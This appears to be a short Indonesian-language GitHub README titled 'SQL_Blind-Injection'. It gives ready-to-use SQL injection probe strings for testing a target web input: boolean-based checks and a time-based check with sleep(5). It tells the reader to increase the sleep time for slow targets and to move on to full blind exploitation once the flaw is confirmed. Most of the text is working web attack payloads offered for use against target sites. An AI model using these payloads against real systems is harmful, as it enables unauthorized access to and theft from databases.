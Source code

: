 # SQL_Blind-Injection
Cek kerentenan Terlebih Dahulu dengan mengetikan :
123(datavalid)' and true -- -  Untuk Blind Injection saja
123(data valid)' and ascii('a') = 97 -- -   Untuk Blind Injection saja
------------------------------
cek kerentanan jika terdapat blind_time_injection             
123(datavalid)' and if(1=1, sleep(5), false) -- -
Kode diatas dimana  bila benar maka akan menjalankan fungsi sleep selama 5 detik  usahakan jika  respond dari target web anda lambat sebaiknya diperbesar lagi  fungsi sleepnya.


jika mendapatkan suatu Respond saat menajalankan kode diatas silahkan kamu gunakan ekploitasi blind_injection/blind_time_injection
